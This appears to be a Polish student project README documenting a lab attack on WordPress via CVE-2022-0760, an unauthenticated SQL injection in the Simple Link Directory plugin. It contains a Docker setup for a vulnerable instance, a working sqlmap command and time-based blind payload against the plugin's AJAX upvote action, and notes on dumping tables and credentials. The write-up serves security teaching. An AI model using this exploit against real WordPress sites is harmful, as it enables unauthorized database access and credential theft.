





<p align="center">
    
    <h1 align="center">Zadanie - atak na Wordpress</h1>
    <h3 align="center">Bezpieczeństwo aplikacji webowych (projekt)</h3>
    <h3 align="center">piątek 8:15</h3>
</p>

---

W ramach zadania projektowego wykonano raport przeprowadzeonego ataku na dowolnie wybraną wersję Wordpress'a (z wybraną dowolnie wtyczką).

## Wybrana podatność - CVE-2022-0760 - Unauthenticated SQL injection in Simple Link Directory

Wybrana podatność to `Unauthenticated SQL injection` dla wtyczki Wordpress [Simple Link Directory](https://wordpress.org/plugins/simple-link-directory/) - [CVE-2022-0760](https://nvd.nist.gov/vuln/detail/CVE-2022-0760).


- Severity -  9.8 Critical 
- CVSS - CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H 
- CWE - CWE-89 - Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection') 

Wtyczka nie waliduje i nie usuwa parametru `post_id` przed wykorzystaniem go w instrukcjach SQL za pomocą akcji w AJAX `qcopd_upvote_action`, co może umożliwić nieupoważnionym atakującym przeprowadzenie ataku `SQL injection`.


Podatność dotyczy wersji wtyczki `Simple Link Directory` w wersji poniżej 7.7.2.
Podatność została zgłoszona 28 lutego 2022 przez https://cyllective.com.

Podatność została finalnie poprawiona w wersji 7.7.2.


Stronę WordPress z podatną wtyczką można przeskanować w ramach narzędzia [WPScan](https://wpscan.com/vulnerability/1c83ed73-ef02-45c0-a9ab-68a3468d2210) - posiada jej detekcje w swoim zbiorze danych.


## Obraz Docker - Wordpress

W ramach zadania utworzono plik [DockerFile](DockerFile), który tworzy podatną instancję Wordpress z potrzebnymi komponentami.
Strona jest wystawiona na porcie 18000.

Aby uruchomić kontener należy wykonać poniższe komendy:
```
docker build -t wordpress . 
docker run --name=wordpress --rm -p 18000:80 -it -e WORDPRESS_SITE_URL=localhost:18000 wordpress
```

Uruchomioną stronę można podejrzeć pod adresem `localhost:18000`.\


## Wykorzystanie podatności - PoC

W ramach wykorzystania podatności zasymulowano scenariusz ataku SQLi Injection na podatną stronę WordPress.

Aby to zrobić wykorzystano narzędzie `sqlmap` - potwierdzi ono występowanie podatności.
W tym celu wykorzystano podatną akcje AJAX `qcopd_upvote_action` wraz z `post_id`.

```
sqlmap -u "http://localhost:18000/wp-admin/admin-ajax.php" --data 'action=qcopd_upvote_action&post_id=1' -p post_id --dbms mysql
```

W wyniku wykonania powyższej komendy uzyskujemy informacje o podatnym parametrze `post_id` - jest możliwe wstrzyknięcie kodu SQLi `Blind time based `.

Ładunek, który można wykorzystać to:

```
Parameter: post_id (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: action=qcopd_upvote_action&post_id=1 AND (SELECT 9007 FROM (SELECT(SLEEP(5)))hwvp)
```



Dzięki fladze `--tables` można otrzymać po dłuższym czasie informacje o zawartych strukturach w bazie danych. Należy pamiętać, że zapytania `Blind time-based` są powolne.





Przykładowo dla innych flag można uzyskać więcej informacji o tabelach - `-T <table> --columns`, a następnie je pobrać dodając flagę `--dump`.

W przypadku strony Wordpress, która posiadałaby w bazie danych tabele np. użytkowników, możnabyłoby uzyskać jej kopię i wykorzystać dane do wykradnięcia poświadczeń.

